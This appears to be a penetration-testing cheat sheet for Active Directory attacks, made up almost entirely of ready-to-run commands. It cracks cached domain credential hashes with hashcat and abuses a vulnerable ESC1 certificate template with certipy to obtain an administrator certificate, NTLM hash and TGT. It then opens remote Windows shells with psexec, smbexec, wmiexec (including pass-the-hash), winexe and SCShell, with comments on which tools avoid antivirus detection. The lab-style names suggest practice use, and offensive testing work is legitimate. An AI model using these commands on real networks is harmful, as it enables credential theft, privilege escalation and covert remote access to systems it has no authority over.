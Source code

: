 <pre class="language-bash"><code class="lang-bash"><strong># Domain Cached Logon Cracking DCC2 or MACHACHE2/MSCASH2
</strong><strong>https://www.hackingarticles.in/credential-dumping-domain-cache-credential/
</strong>DOMAIN.COM/Administrator:$DCC2$10240#Administrator#f59ffc1c8261922618d5d4f1ad2b22cc
hashcat -m 2100 hashes rockyou.txt --username
</code></pre>

## Pass The Certificate (Cert -> NTLM or TGT)

{% code overflow="wrap" fullWidth="true" %}
```bash
# If vulnerable template (case ESC1 for example) we can request a certificate
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC1 -ca ESSOS-CA -upn administrator@essos.local
#     With certipy we can request the ntlm hash of the user and the TGT too
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
```
{% endcode %}

## Getting Windows shell

| [https://www.hackingarticles.in/remote-code-execution-using-impacket/](https://www.hackingarticles.in/remote-code-execution-using-impacket/)                                                                                                                                                                                                               |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [tps://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Using%20credentials.md#remote-code-execution-with-ps-credentials](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Using%20credentials.md#remote-code-execution-with-ps-credentials) |

{% code overflow="wrap" %}
```bash
smbexec.py DOMAIN/username:password@10.10.10.10
winexe -U DOMAIN/username%password //10.10.0.0 cmd.exe
psexec.py domain/username:password@hostIP
psexec.py s4vicorp.local/Administrator:P@\$\$w0rd\!@10.0.2.44 cmd.exe

# winexe is more stealthy than psexec.py
# dcomexec.py no AV detection
# atexec.py is also a good option, no AV detection

# A semi-interactive shell, used through Windows Management Instrumentation.
python wmiexec.py DOMAIN/username:password@10.10.10.10
wmiexec.py domain.local/user@10.0.0.20 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79
```
{% endcode %}

### SCShell

```bash
https://github.com/Mr-Un1k0d3r/SCShell
# We need RPC port 135 open
# Good option if PSExec.exe, psexec.py, smbexec.py are detected by the AV
python3 scshell.py user@$IP
```
